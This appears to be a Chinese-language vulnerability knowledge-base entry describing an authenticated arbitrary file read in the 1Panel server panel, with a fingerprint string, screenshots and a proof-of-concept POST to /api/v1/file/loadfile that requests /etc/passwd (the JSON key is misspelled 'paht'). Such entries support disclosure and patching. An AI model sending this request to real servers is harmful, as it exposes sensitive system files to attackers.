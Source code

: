 # 1Panel loadfile 后台文件读取漏洞

## 漏洞描述

1Panel 后台存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息文件

## 漏洞影响

<a-checkbox checked>1Panel</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"1Panel"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691724157871-153c523f-4eb1-4145-8c90-b4e7608d792c.png)

![img](../../../.vuepress/public/img/1691724195121-1bffe5bb-9161-4087-a15d-68fb29a44fe0.png)

![img](../../../.vuepress/public/img/1691724202417-adf0c19b-38a8-4549-95b1-66231a19234f.png)

验证POC

```php
POST /api/v1/file/loadfile

{"paht":"/etc/passwd"}
```

![img](../../../.vuepress/public/img/1691724120824-b3faa665-32bc-45f7-a1ad-232aac1a61c0.png)
